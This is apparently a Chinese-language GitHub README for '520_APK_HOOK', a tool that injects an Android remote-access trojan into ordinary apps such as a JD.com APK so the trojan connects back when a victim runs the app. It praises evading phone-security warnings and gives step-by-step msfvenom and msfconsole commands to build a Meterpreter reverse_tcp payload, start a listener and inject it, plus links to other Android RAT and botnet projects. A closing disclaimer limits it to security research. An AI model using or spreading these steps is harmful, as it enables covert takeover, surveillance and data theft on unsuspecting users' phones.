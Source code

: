 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.0-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v2.0/a520ApkHook-1.0-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j

```
4. 520ApkHook

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar  ~/Downloads/京东.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 一款安卓僵尸网络远控工具, 服务端是web网页,  基于[https://deta.space](https://deta.space) 搭建(匿名): 

  * [https://github.com/ScRiPt1337/Teardroid-phprat](https://github.com/ScRiPt1337/Teardroid-phprat)

* 一款安卓远控程序, 服务端是GUI程序: 

  * [https://github.com/AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT)

* 搜集的一些github上的安卓远控项目:

  *  [https://github.com/wishihab/Android-RATList](https://github.com/wishihab/Android-RATList)


## BUG

* 微信只能通过应用克隆的方式安装，需要先指定微信的apk包，生成520ApkHook.apk. 再使用np管理器把assets目录下的和微信大小一样的文件给删除掉。再使用np管理器重新进行签名即可.（这种方法要求目标机器上要已经安装微信.）

* 新生成的apk的包名字, 不能和被注入的apk包名字一样, 程序默认已经修改.

* msf无法在鸿蒙OS使用, 文件读取在鸿蒙OS上也无法正常使用.

* 其他未测试...

## 项目依赖

* 本项目参考以下项目

* 由于安卓虚拟化牵扯到其他github上被下架的程序，在这里不再进行列出，避免被影响。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .